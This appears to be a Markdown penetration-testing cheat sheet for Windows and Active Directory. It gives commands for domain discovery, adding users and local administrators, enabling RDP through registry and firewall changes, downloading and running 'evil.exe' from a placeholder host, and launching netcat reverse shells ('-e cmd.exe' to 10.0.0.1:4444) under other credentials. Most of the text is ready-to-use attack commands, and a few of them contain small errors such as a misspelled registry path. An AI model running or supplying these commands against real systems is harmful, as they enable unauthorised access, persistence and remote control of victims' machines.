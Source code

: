 # Windows

## AD
ad mindmap :
![./pentest_ad.svg](./pentest_ad.svg)

## Find AD  
- Using nmap and dhcp :
```
sudo nmap --script broadcast-dhcp-discover -e eth0
```

- Using nslookup:
```
nslookup domainname
nslookup -type=SRV _ldap._tcp.dc._msdcs.pen.test
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain> <dns server ip>
nslookup -type=srv _kerberos._tcp.dc._msdcs.<domain> <dns server ip>
```

- Enum4linux give the domainname

## users

Add user 
```
net user [username] [password] /ADD
```

Add user to domain 
```
net user [username] [password] /ADD /DOMAIN
```

Add user as admin
```
net localgroup administrators [username] /add
```

## RDP
- Enable RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

- Add firewall authorisation
    
	netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes profile=private,domain localport=3389 protocol=tcp

- Connect to windows RDP
```
rdesktop -g 95% -u user -p password 10.0.0.1 -r disk:share=/ftphome
```

## File Upload

- PowerShell download and execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
New-Object System.Net.WebClient.DownloadFile('http://x.x.x.x/evil.exe','evil.exe'); 
evil.exe x.x.x.x 443 -e cmd.exe
```

- VBS file upload
  - fu.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); 
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); 
WinHttpReq.Send(); 
WScript.Echo(WinHttpReq.ResponseText); 
```
  - execute
```
cscript /nologo fu.js http://ip/bullshit > uploaded_file
```

## Change user
- userchange.ps1
```powershell
$secpasswd = ConvertTo-SecureString "passwordhere" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("usernamehere", $secpasswd)
$computer = "Hostnamehere"
\[System.Diagnostics.Process\]::Start("c:\temp\nc.exe","10.0.0.1 4444 -e cmd.exe",$mycreds.Username, $mycreds.Password, $computer)
```
- execute
```
powershell -ExecutionPolicy Bypass -File c:\temp\change_user.ps1
```

- run as other user
```
runas /user:domain\user cmd.exe
```

## Privesc Checker 
- winPEAS : https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

